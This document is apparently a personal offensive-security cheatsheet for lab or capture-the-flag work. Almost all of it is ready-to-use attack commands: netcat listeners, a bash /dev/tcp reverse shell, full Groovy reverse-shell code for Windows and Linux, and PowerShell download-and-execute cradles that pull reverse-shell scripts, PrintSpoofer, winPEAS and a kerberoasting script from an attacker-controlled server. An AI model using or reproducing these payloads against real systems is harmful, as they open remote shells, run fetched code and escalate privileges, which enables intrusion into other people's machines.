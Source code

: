 # Netcat Cheatsheet

## Open Netcat Server

- nc -lv localhost 8782
- ncat -lvnp 1234

## target windows

- stty raw -echo; (stty size; cat) | ncat -lvnp 1337

## Spawn Ngrok Server

- ngrok tcp 8782

## Payload Client

- <https://www.revshells.com>
- <https://bit.ly/3yNL1hg>
- sh -i >& /dev/tcp/10.9.2.251/1234 0>&1

## Spawn TTY

- python -c 'import pty; pty.spawn("/bin/sh")'
- python -c 'import pty; pty.spawn("/bin/bash")'

## Spawn python server

python3 -m http.server 9000

## Groovy :

- Windows
String host="10.9.2.251";
int port=1234;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

- Linux
String host="10.9.2.251";
int port=1234;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();


## powershell cheatsheet

- powershell IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.168.173 1337

- powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.2.251:9000/payload/windows/revshellwindow.ps1');Invoke-ConPtyShell 10.9.2.251 1338

- powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.2.251:9000/payload/windows/revshellwindowold.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.9.2.251 -Port 1338

- powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.1.25:9000/payload/payload.bat','payload.bat')"

- powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.2.251:9000/linpeas/winpeass.exe','winpeass.exe')"

- Start-Process "payload.bat"

- powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.2.251:9000/payload/windows/printspoofer.exe','printspoofer.exe')"

- powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.2.251:9000/payload/windows/kerberoast.ps1','powerup.ps1')"

